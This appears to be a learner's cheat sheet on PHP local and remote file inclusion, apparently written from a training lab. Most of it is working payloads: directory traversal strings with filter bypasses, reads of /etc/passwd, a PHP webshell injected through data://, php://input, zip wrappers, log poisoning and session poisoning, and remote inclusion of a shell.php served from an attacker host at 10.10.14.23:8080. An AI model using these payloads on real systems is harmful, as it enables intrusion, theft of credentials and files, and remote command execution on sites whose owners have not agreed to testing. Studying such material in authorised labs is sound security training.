 # FILE INCLUSION / DIRECTORY TRAVERSAL

## Quick Examples
"index.php?language=../../../../../../../../../etc/passwd"
"index.php?language=....//....//....//....//....//....//....//....//etc/passwd"
....// = %2e%2e%2e%2e%2f%2f

index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt
index.php?language=<?php system($_GET['cmd']); ?>
index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt&cmd=whoami

Base encoded PHP webshell
```bash
echo '<?php system($_GET['cmd']); ?>' | base64
"index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id"
```

```bash
echo '<?php system($_GET['cmd']); ?>' > exec.php
zip malicious.zip exec.php
rm exec.php
```

```bash
python3 -m http.server 8080
```
"index.php?language=http://localhost:8080/shell.php"
"http://139.59.175.51:30183/index.php?page=php://filter/read=convert.base64-encode/resource=index"
"http://10.129.175.146/index.php?language=http://10.10.14.23:8080/shell.php&cmd=cat /exercise/flag.txt"

## Notes
### Local File Inclusion
What is Local File Inclusion:
File inclusion vulnerabilities can often be found in GET request parameters. Server-side scripts include certain files based on the user's choice or input, for example, file downloads, choice of language, or website navigation.

This attack can be done when there is an input on the URL where it will find a file and include it in the website. For example "index.php?language=es.php" You can then change this to be "index.php?language=/etc/passwd" which will include the passwd file instead of the php file.

The verbose error returned shows us the string passed to the include() function, stating that there is no /etc/passwd in the languages folder. This restriction can be bypassed by traversing directories using a few ../ before the desired file name.
Example "index.php?language=../../../../../../../../../etc/passwd"

Instead, prefixing a / before the payload will bypass the filename and traverse directories instead.
Example "index_2.php?language=/../../../../../etc/passwd"

Scripts can employ search and replace techniques to avoid path traversals. For example:
$language = str_replace('../', '', $_GET['language']);
This will attempt to replace the traversal attack.
You can try and get arorund this by adding an extra ....// and the script will remove ../ leaving ../
Example "index.php?language=....//....//....//....//....//....//....//....//etc/passwd"

On PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload. The characters ../ can be URL encoded into %2e%2e%2f, which will bypass the filter.
In the last example ....// can be URL encoded into %2e%2e%2e%2e%2f%2f.

### LFI to Remote Code Execution
PHP provides various wrappers, which can be used for easier access to files, protocols, or streams. A list of wrappers can be found here. The php:// wrapper is enabled by default and interacts with IO streams. For example: php://stdin and php://stdout can be used to access input and output streams for the process, while php://input and php://output are used to access request data. One handy wrapper is php://filter, which can be chained with multiple filters to achieve the desired output.

For example, the filter php://filter/read=/resource=/etc/passwd reads the resource /etc/passwd and outputs the contents. The read filter can process the input with various string operations, such as base64 encoding, ROT13 encoding, etc.

The following filters will convert the contents of /etc/passwd to base64 and ROT13, respectively.
Example "index.php?language=php://filter/read=convert.base64-encode/resource=config"

PHP versions before 5.5 are vulnerable to null byte injection, meaning that adding a null byte at the end of the filename should bypass the extension check. For example: language=/etc/passwd%00 will result in the statement include("/etc/passwd%00.php"), where the server ignores everything after the null byte.

With remote file inclusions you can use tools like burpsite to inject PHP code into log files or internal files. This allows us to run our system commands on the box.
For example we run the request "http://139.59.175.51:32110/index.php?language=/var/log/apache2/access.log" and we can change the User Agent to "<?php system($_GET['cmd']); ?>" which whill allow us to inject our system commands into the php page.
The next request we send reading access.log we will pull the php and we add the cmd=... which will specify our command.
Example "http://139.59.175.51:32110/index.php?language=/var/log/apache2/access.log&cmd=cat%20/exercise/flag.txt"

http://139.59.175.51:32110/index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt
http://139.59.175.51:32110/index.php?language=<?php system($_GET['cmd']); ?>
http://139.59.175.51:32110/index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt&cmd=whoami

### Other PHP Wrappers
The expect wrapper in PHP helps in interaction with process streams. This extension is disabled by default but can prove very useful if enabled. For example, the following URL will return the output of the id command.

The data wrapper can be used to include external data, even PHP code. It's possible to use this only if the allow_url_include setting is enabled in the PHP configuration.
http://139.59.175.51:30183/index.php?page=php://filter/read=convert.base64-encode/resource=index

Base encoded PHP webshel
```bash
echo '<?php system($_GET['cmd']); ?>' | base64
http://blog.inlanefreight.com/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id
```

Similar to the data wrapper, the input wrapper can be used to include external input and execute code. It also needs the allow_url_include setting enabled.
```bash
curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input" | grep uid
```

The zip wrapper can prove useful in combination with file uploads.
```bash
echo '<?php system($_GET['cmd']); ?>' > exec.php
zip malicious.zip exec.php
rm exec.php
```

### Remote File Inclusion
Remote File Inclusion or RFI occurs when wensites allow the inclusion of remotly hosted files. For example the files localy on the attackers device or C2 server.

To include a remote file in PHP, the allow_url_fopen setting (enabled by default) and allow_url_include setting have to be turned on. Start a python HTTP server on port 8080 on localhost and then pass a URL to it through the language parameter.
Example: "index.php?language=http://localhost:8080/file"

Next, use the ftp:// scheme to access shell.php present in the FTP root.
"index.php?language=ftp://user:pass@localhost/shell.php&cmd=id"
When the application is running on Windows, the restrictions applied by allow_url_include can be bypassed by using the SMB protocol.

